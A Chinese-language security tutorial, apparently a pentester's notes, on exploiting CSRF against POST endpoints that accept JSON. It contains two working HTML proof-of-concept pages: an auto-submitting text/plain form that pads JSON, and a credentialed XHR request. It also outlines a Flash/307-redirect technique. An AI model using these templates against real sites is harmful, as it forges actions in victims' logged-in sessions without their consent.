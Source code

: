 ## JSON格式下的CSRF漏洞利用
### 介绍
GET型的CSRF一般比较简单，这里介绍POST型的CSRF漏洞的POC构造。</br>
但是在POST类型的接口或者URL中，会出现一种JSON格式的入参，构造POC有一些注意点，这里主要对此做一些记录。</br>

### 漏洞利用 
#### （一）常规POC
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/1.png height="300" width="650"></br>
首先使用常规POC，可使用BurpSuite的“Engagement Tools-Generate CSRF PoC”功能生成，如下：</br>

```html
<html>
<body>
	<form name="zzz" action="https://aaa.com" method="POST" enctype="text/plain">
		<input type="hidden" name='json入参' value='json入参产生“=”，此处设法闭合'/>
	</form>
	
	<script type="text/javascript">
		document.zzz.submit();
	</script>
</body>
</html>
```
使用上述常规POC会发现，响应报415，“Unsupported Media Type”，意为不支持的媒体类型;</br>
这是由于HTML文件中“enctype="text/plain"”造成的。</br>
抓包可以看到JSON入参后面跟了一个“=”符号。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/2.png height="300" width="650"></br>
这种情况下，这种情况下服务端的JSON解析器可能会拒绝这段JSON，因为它不符合JSON的数据格式。 这时候我们可以给value赋值从而对=后的数据进行补全，使其构造成一个完整的json格式，可以避免解析器报错。具体的构造由name和value两个入参来进行，将"="封进JSON的入参中去，效果如下：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/4.png height="300" width="650"></br>

#### （二）通过XHR提交
上述（一）最后如果还是响应415状态码，那么可能就是服务端校验了Content-Type类型，该请求字段只能为application/json。如此，可通过XHR提交入参，如下所述。</br>
在通过HTML form提交生成的POST请求中，请求头的Content-Type由form元素上的enctype属性指定;现在enctype只有如下三种属性值：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/3.png height="300" width="650"></br>
其中text/plain可以满足JSON入参类型，但是其在用户请求时，相应请求体字段自动转换为了application/x-www-form-urlencoded。如下：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/5.png height="300" width="650"></br>
当跨域影响用户数据HTTP请求(如用XMLHttpRequest发送post)时，浏览器会发送预检请求(OPTIONS请求)给服务端征求支持的请求方法，然后根据服务端响应允许才发送真正的请求。 然而如果服务端对Content-Type进行校验，则不会响应这个OPTIONS请求，从而利用失败。</br>

所以在此场景下，这一思路是行不通的。但是更多的情况下服务端可能不会校验Content-Type，或者不会严格校验Content-Type是否为application/json，所以很多情况下这是可用的。</br>
新的POC如下：</br>
```html
<html>
<body>
	<script>
		function submitRequest(){
			var xhr = new XMLHttpRequest();
			xhr.open("POST","https://aaa.com",true);
			xhr.setRequestHeader("Accept","*/*");
			xhr.setRequestHeader("Accept-Language","zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
			xhr.setRequestHeader("Content-Type","application/json");
			xhr.withCredentials = true;
			xhr.send(stringify(json入参));
		}
	</script>

	<form action="#">
		<input type="button" value="Submit Request" onclick="submitRequest();"/>
	</form>
</body>
</html>
```

#### （三）借助flash，利用307跳转实现CSRF
1.制作一个Flash文件</br>
2.制作一个跨域XML文件</br>
3.制作一个具有307状态码的php文件</br>
已经有大牛造好轮子了，参考：https://github.com/sp1d3r/swf_json_csrf</br>
